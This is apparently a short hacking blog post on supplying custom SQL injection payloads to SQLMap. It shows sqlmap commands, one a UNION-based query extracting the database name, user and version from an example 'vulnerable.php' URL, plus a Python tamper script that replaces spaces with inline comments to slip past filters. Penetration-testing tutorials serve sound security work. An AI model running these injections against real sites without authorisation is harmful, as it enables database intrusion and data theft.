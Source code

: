 ```yaml
---
title: "Add custom Payloads Directly in SQLMap"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## Example: Using `--sql-query`

### Simple Custom Payload

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT version()"
```

### Union-Based Custom Payload

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="UNION SELECT null, database(), user(), version()"
```

## Customizing Payloads with Tamper Scripts

If you need more flexibility and want to systematically apply custom payloads, you can create a tamper script that modifies the default payloads used by SQLMap.

### Example: Custom Tamper Script

**Create a Custom Tamper Script**

Create a new Python file in the tamper directory of your SQLMap installation, for example, `custom_payload_tamper.py`.

```
#!/usr/bin/env python
import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Custom tamper script to inject custom payloads
    """
    if payload:
        payload = payload.replace(" ", "/**/")
        if "SELECT" in payload.upper():
            payload = payload.replace("SELECT", "SELECT/**/custom_function(),")
    return payload
```
